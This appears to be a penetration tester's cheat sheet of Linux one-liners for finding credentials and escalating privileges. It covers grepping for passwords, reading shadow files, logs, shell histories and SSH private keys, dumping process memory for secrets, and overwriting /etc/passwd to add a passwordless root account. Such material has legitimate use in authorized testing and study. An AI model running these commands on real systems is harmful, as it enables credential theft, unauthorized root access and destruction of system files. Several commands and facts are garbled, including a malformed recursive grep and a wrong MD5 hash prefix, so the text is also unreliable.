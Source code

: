 # User and Password One-Liners

## Files With "passw" String 
```
find / -type f -readable -size +0 2>/dev/null | grep -Hi passw 
grep -r -l -i -I passw /  
```

## Plaintext Usernames or Passwords? 
```
grep -i user [filename] 
grep -i pass [filename] 
grep -C 5 "password" [filename] 
```
- For Joomla
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" 
```

## Files Generally With Plaintext / Easily-Reversible Passwords
```
less /var/apache2/* 
cat /root/anaconda-ks.cfg 
strings /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg 
```
## Users With No Password Set 
```
cut -f1-2 -d':' /etc/passwd | grep -v ':x$' 
```

## Super Users 
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' 
awk -F: '($3 == "0") {print}' /etc/passwd
```

# User and Password Hashes

## Background
- /etc/passwd contains users of the machine. If we filter for just the users that have /bin/bash or /bin/sh as their default program upon login, then we can get a list of interactive machine users.
```
Cat /etc/passwd | grep /bin/bash 
Cat /etc/passwd | grep /bin/sh 
grep -vE "nologin" /etc/passwd 
```
- /etc/shadow has the password hashes and is only readable by root unless it's misconfigured to allow other users to read it.
### Hash Syntax 
  - First 3 chatcyers identify the algorithm used.  
  ```
  1$	      MD5 
  $2a$	    Blowfish 
  $2y$	    Blowfish 
  $5$	      SHA-256 
  $6$	      SHA-512 
  ```
  - The next characters are the salt which preceded the next $. 
  - The string after the middle $ is the password hash value.

## Attack Vector
1. Try easy passwords for trying to su to other interactive users.  
2. Display the permissions of the shadow file to see if we or a non-root user can display the hash contents.  Then crack the hash. 
3. Display the permissions of the /etc/ passwd file. If it is writable by the current user then you can overwrite the file to add a new root user without a password required.  
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd 
```
  - Usually there's an X after the username to signify a password is required. When it is omitted (like this example), you can su to root without a password.

## Passwords in Memory of Running Applications

### Background
- Credentials can be stored in cleartext in memory of already running applications.
- Access to memory space of running applications is possible when it is within the same user context.

### Attack Vector
- Write running process memory space to a file.  Then search for credential data. 
- GDB 
```
#gdb -p <pid>  
info proc mappings 
Dump memory <outfile> <start memory region > <stop memory region> 
```
- GCore 
```
gcore -o <outfile> <pid>
```

## History and Logs

### Background
- Sometimes credentials can be saved in the history or log files of programs or the OS.

### Attack Vector
- Bash History
  - Provides history functionality that stores previous bash commands. 
  - Automatically created in user home directory. 
   ```
    cat  ~/.bash_history
    ```
- Logs
  - Check for file permissions being set incorrectly for logs that we can read.  
  - Common location for logs is
  ```
  /var/log/
  ```
  - Common direct paths 
  ```
  cat /etc/httpd/logs/access_log 
  cat /etc/httpd/logs/access.log 
  cat /etc/httpd/logs/error_log 
  cat /etc/httpd/logs/error.log 
  cat /var/log/apache2/access_log 
  cat /var/log/apache2/access.log 
  cat /var/log/apache2/error_log 
  cat /var/log/apache2/error.log 
  cat /var/log/apache/access_log 
  cat /var/log/apache/access.log 
  cat /var/log/auth.log 
  cat /var/log/chttp.log 
  cat /var/log/cups/error_log 
  cat /var/log/dpkg.log 
  cat /var/log/faillog 
  cat /var/log/httpd/access_log 
  cat /var/log/httpd/access.log 
  cat /var/log/httpd/error_log 
  cat /var/log/httpd/error.log 
  cat /var/log/lastlog 
  cat /var/log/lighttpd/access.log 
  cat /var/log/lighttpd/error.log 
  cat /var/log/lighttpd/lighttpd.access.log 
  cat /var/log/lighttpd/lighttpd.error.log 
  cat /var/log/messages 
  cat /var/log/secure 
  cat /var/log/syslog 
  cat /var/log/wtmp 
  cat /var/log/xferlog 
  cat /var/log/yum.log 
  cat /var/run/utmp 
  cat /var/webmin/miniserv.log 
  cat /var/www/logs/access_log 
  cat /var/www/logs/access.log 
  ls -alh /var/lib/dhcp3/ 
  ls -alh /var/log/postgresql/ 
  ls -alh /var/log/proftpd/ 
  ls -alh /var/log/samba/ 
  ```
  - Other applications if they're installed 
  ```
  cat ~/.nano_history 
  cat ~/.atftp_history 
  cat ~/.mysql_history 
  cat ~/.php_history 
  ```

## Passwords in Configuration Files
```
cat /var/apache2/config.inc 
cat /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg 
Grep RiIn passw / 2>/Dev/null 
```
- List web server config files  
```
ls -alR /var/www/ 
ls -alR /srv/www/htdocs/  
ls -alR /usr/local/www/apache22/data/ 
ls -alR /opt/lampp/htdocs/ 
```

## .History Files For Credentials to Re-Use
```
cat ~/.bash_history 
cat ~/.nano_history 
cat ~/.atftp_history 
cat ~/.mysql_history 
cat ~/.php_history 
```

# Private Key Information
```
cat ~/.ssh/authorized_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id_rsa.pub 
cat ~/.ssh/id_rsa 
cat ~/.ssh/id_dsa.pub 
cat ~/.ssh/id_dsa 
cat /etc/ssh/ssh_config 
cat /etc/ssh/sshd_config 
cat /etc/ssh/ssh_host_dsa_key.pub 
cat /etc/ssh/ssh_host_dsa_key 
cat /etc/ssh/ssh_host_rsa_key.pub 
cat /etc/ssh/ssh_host_rsa_key 
cat /etc/ssh/ssh_host_key.pub 
cat /etc/ssh/ssh_host_key
```
